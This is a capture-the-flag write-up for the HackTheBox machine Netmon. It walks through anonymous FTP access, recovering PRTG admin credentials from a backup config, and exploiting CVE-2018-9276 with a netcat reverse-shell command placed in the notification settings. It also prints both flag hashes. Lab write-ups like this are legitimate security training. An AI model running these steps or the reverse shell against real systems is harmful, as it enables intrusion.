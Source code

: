 # Netmon

Author: Ewaël

**Netmon** is an easy HackTheBox box by mrb3n.

`nmap -sC -sV -oN nmap 10.10.10.152 -v -A` shows port 80 is open and an anonymous ftp access. Let's check this website first.

![login](login.png)

The default credentitials `prtgadmin:prtgadmin` do not work and I do not find any bypass on Google. Let's try that ftp anonymous access with `ftp 10.10.10.152` and `anonymous:<empty>`.

From there I can access every resources on the machine as a user. First I get the user flag in `/Users/Public`:

```
dd58ce67b49e15105e88096c8d9255a5
```

Then I search for PRTG config files which could contain some credentitials. The default location for configuration files is `/programdata/Paessler/PRTG Network Monitor`. I transfer all of them on host and finally find something interesting in `PRTG Configuration.old.bak`: `prtgadmin:PrTg@dmin2018`.

I change it to `prtgadmin:PrTg@dmin2019` and log into PRTG Network Monitor.

![admin](admin.png)

I can now exploit the CVE-2018-9276. I download the CVE python script and execute it:

```
python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.14.34 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```

Back on the site, I have to exploit a notification vulnerability. Let's start by finding notifications list:

![notif](notif.png)

Then the notifications settings:

![config](config.png)

Finally I check the `Execute Program` box and I fill it with `nc 10.10.14.34 4444 -e /bin/sh`:

![nc](nc.png)

A shell pops up on host as system administrator when I send a notification test with those settings. I can now get my root flag:

```
3018977fb944bf1878f75b879fba67cc
```
